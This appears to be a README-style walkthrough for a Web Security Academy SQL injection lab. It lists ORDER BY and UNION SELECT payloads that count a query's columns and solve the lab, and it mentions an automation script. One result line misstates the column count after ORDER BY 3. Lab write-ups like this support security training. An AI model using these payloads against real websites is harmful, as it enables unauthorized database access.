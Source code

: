 # SQL Injection Lab 07 - SQL injection UNION attack, determining the number of columns returned by the query

## Manual Solution

1. Access the lab in Web Security Academy
2. Determine the number of columns for UNION attack
   - Test: `/filter?category=Gifts' ORDER BY 1--`
   - Result: No error (at least 1 column exists)
   - Test: `/filter?category=Gifts' ORDER BY 2--`
   - Result: No error (at least 2 columns exist)
   - Test: `/filter?category=Gifts' ORDER BY 3--`
   - Result: No error (at least 2 columns exist)
   - Test: `/filter?category=Gifts' ORDER BY 4--`
   - Result: Error (confirms 3 columns)

3. Append injection to the URL:
   - Test: `/filter?category=Gifts' UNION SELECT null,null,null--`
   - Result: Congratulations, you solved the lab!

## Automated Solution

1. Download the script
2. Run the script with the following command: python sqli_lab_07.py -u <target_url> -p (if you want to use proxy 127.0.0.1:8080)

